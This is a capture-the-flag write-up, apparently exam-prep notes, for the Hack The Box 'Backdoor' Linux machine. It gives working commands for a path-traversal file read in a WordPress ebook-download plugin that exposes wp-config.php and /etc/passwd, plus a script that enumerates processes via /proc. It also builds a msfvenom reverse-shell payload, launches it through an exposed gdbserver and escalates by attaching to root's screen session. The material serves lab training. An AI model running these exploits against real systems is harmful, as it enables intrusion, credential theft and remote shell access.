 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

---

## 🔍 Recon

### Nmap Scans
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.125
nmap -p 22,80,1337 -sCV -oA scans/nmap-tcpscripts 10.10.11.125
```

### Manual Checks
```bash
nc -v 10.10.11.125 1337
curl 10.10.11.125:1337
```

---

## 🌐 [Website & WordPress Recon](HTTP.md)

### /etc/hosts Update
```bash
echo "10.10.11.125 backdoor.htb" | sudo tee -a /etc/hosts
```

### WPScan
```bash
wpscan -e ap,t,tt,u --url http://backdoor.htb --api-token $WPSCAN_API
wpscan -e ap --plugins-detection aggressive --url http://backdoor.htb --api-token $WPSCAN_API
```

### Feroxbuster (Plugin Discovery)
```bash
feroxbuster -u http://backdoor.htb/wp-content/plugins -w plugins.txt
```

---

## 🧪 Shell as User

### Ebook Download Plugin Exploit
```bash
# Check plugin version
curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt

# Exploit LFI to read wp-config
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php

# Read /etc/passwd
curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../../../../../etc/passwd
```

### Process Enumeration via /proc
```bash
curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=/proc/self/cmdline | tr '\000' ' ' | cut -c115- | rev | cut -c32- | rev
```

### Bash Script to Find gdbserver
```bash
#!/bin/bash
for i in $(seq 1 50000); do
    path="/proc/${i}/cmdline"
    skip_start=$(( 3 * ${#path} + 1))
    skip_end=32

    res=$(curl -s http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=${path}ne -o- | tr '\000' ' ')
    output=$(echo $res | cut -c ${skip_start}- | rev | cut -c ${skip_end}- | rev)
    if [[ -n "$output" ]]; then
        echo "${i}: ${output}"
    fi
done
```

---

## 🧨 Exploit gdbserver (User Shell)

### Create Reverse Shell Payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 PrependFork=true -f elf -o rev.elf
```

### GDB Remote Exploit
```bash
gdb -q rev.elf
(gdb) target extended-remote 10.10.11.125:1337
(gdb) remote put rev.elf /dev/shm/rev
(gdb) set remote exec-file /dev/shm/rev
(gdb) run
```

### Catch the Shell
```bash
nc -lnvp 443
```

### Upgrade the Shell
```bash
script /dev/null -c bash
# then Ctrl+Z
stty raw -echo; fg
# then type
reset
# when prompted:
screen
```

---

## 💣 Metasploit Method (Alternative)

```bash
msfconsole
use exploit/multi/gdb/gdb_server_exec
set RHOSTS 10.10.11.125
set RPORT 1337
set LHOST tun0
run
```

---

## ⚡ Shell as Root

### Spot screen Process
```bash
ps auxww | grep screen
```

### Connect to Root's Screen Session
```bash
screen -ls root/
TERM=screen screen -x root/[session_id]
# OR
TERM=screen screen -x root/root
```

---

## 🏁 Flags
```bash
cat /home/user/user.txt
cat /root/root.txt
```